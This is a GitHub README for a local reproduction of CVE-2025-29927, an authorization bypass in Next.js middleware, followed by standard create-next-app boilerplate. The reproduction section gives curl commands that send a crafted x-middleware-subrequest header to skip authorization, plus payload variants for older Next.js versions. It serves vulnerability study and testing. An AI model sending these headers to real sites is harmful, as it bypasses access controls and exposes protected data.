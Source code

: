 # CVE-2025-29927 Authorization Bypass reproduction

This repository is a reproduction of the [CVE-2025-29927](https://security.snyk.io/vuln/SNYK-JS-NEXT-9508709) vulnerability in the `next` package

## How to reproduce

1. Follow the steps below to clone, and run the Next.js application
2. Test authorization denies access to the `/api/hello` endpoint

```bash
$ curl http://localhost:3000/api/hello

{"error":"Unauthorized"}%
```

3. Test authorization works when token is provided

```bash
$ curl -H "Authorization: my-jwt-token-here" http://localhost:3000/api/hello

{"message":"Hello World"}%
```

4. Now it can also be bypassed if we nest `middleware` 5x times into the special `x-middleware-subrequest` header:

```bash
curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/hello

{"message":"Hello, World"}
```

## CVE-2025-29927 exploitation for older Next.js versions

Next.js 12 and 13 versions used to have a different naming convention for the middleware file (`_middleware.js`), which was changed to `middleware.js` in Next.js 14. This vulnerability can be exploited in older versions by using the `_middleware.js` file.

For example, the following payloads would apply, depending on the Next.js version and your routing convention:

- `curl -H "x-middleware-subrequest: middleware" http://localhost:3000/api/hello` (for Next.js versions 12.2 with the `middleware.js` file in the root of the app, not inside the `pages` directory)
- - `curl -H "x-middleware-subrequest: src/middleware" http://localhost:3000/api/hello`
- `curl -H "x-middleware-subrequest: _middleware" http://localhost:3000/api/hello` (for Next.js versions 11 and up to 12.2)
- `curl -H "x-middleware-subrequest: pages/_middleware" http://localhost:3000/api/hello`
- `curl -H "x-middleware-subrequest: pages/admin/_middleware" http://localhost:3000/api/hello`

## Getting Started

First, run the development server:

```bash
npm run dev
# or
yarn dev
# or
pnpm dev
# or
bun dev
```

Open [http://localhost:3000](http://localhost:3000) with your browser to see the result.

You can start editing the page by modifying `app/page.js`. The page auto-updates as you edit the file.

This project uses [`next/font`](https://nextjs.org/docs/app/building-your-application/optimizing/fonts) to automatically optimize and load [Geist](https://vercel.com/font), a new font family for Vercel.

## Learn More

To learn more about Next.js, take a look at the following resources:

- [Next.js Documentation](https://nextjs.org/docs) - learn about Next.js features and API.
- [Learn Next.js](https://nextjs.org/learn) - an interactive Next.js tutorial.

You can check out [the Next.js GitHub repository](https://github.com/vercel/next.js) - your feedback and contributions are welcome!

## Deploy on Vercel

The easiest way to deploy your Next.js app is to use the [Vercel Platform](https://vercel.com/new?utm_medium=default-template&filter=next.js&utm_source=create-next-app&utm_campaign=create-next-app-readme) from the creators of Next.js.

Check out our [Next.js deployment documentation](https://nextjs.org/docs/app/building-your-application/deploying) for more details.
